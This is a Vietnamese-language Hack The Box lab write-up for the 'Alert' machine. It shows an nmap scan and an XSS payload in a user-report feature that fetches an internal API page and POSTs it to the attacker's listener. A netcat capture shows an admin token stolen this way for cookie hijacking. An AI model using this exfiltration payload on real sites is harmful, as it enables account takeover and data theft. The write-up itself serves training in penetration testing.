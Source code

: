 <p align="center"><img src="image/image.png" /></p>

# Alert Hackthebox
## Nmap, 
### Nmap
```
nmap -p- --min-rate=1000 -sCV 10.10.11.43 -oA nmap/output
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
22/tcp   open  ssh     OpenSSH 9.7 (protocol 2.0)
| ssh-hostkey: 
|   256 d6:31:91:f6:8b:95:11:2a:73:7f:ed:ae:a5:c1:45:73 (ECDSA)
|_  256 f2:ad:6e:f1:e3:89:38:98:75:31:49:7a:93:60:07:92 (ED25519)
80/tcp   open  http    Werkzeug httpd 3.0.3 (Python 3.12.3)
|_http-title:          Home  - DBLC    
|_http-server-header: Werkzeug/3.0.3 Python/3.12.3
8545/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.3 Python/3.12.3
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
</pre>

### Mở trang đăng kí đăng kí tài khoản
<p align="center"><img src="image/image1.png" /></p>
<p align="center"><img src="image/image2.png" /></p>

### Khai thấy thấy bị XSS ở report user
Chạy mã khai thác sau
```
async function getData(url) {
  const response = await fetch(url);
  const result = await response.text();
  return result;
}

async function postData(url, data) {
  const response = await fetch(url, {
    method: 'POST',
    mode: 'no-cors',
    body: data,
   });
   const result = await response.text();
   return result;
}

async function pwn(){
  const page = await getData('http://10.10.11.43/api/info');
  postData('http://10.10.14.3:8001',page);
}
pwn();

```
Dùng nc bắt gói tin
```
netcat -lvnp 8001
listening on [any] 8001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.43] 60788
POST / HTTP/1.1
Host: 10.10.14.3:8001
Connection: keep-alive
Content-Length: 316
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.10.11.43
Referer: http://10.10.11.43/
Accept-Encoding: gzip, deflate

{"role":"admin","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MzU3ODIwNywianRpIjoiNzE0ODI2NmUtMWMzNi00OWRjLWI5MzctODMwNmQ1YjkxM2I2IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNzQzNTc4MjA3LCJleHAiOjE3NDQxODMwMDd9.eTQw_e1GqS94IQ8f-eIto78qMkgaDoFrjYfXnzBUBgE","username":"admin"}
```
### Thay cookie lên quyền admin
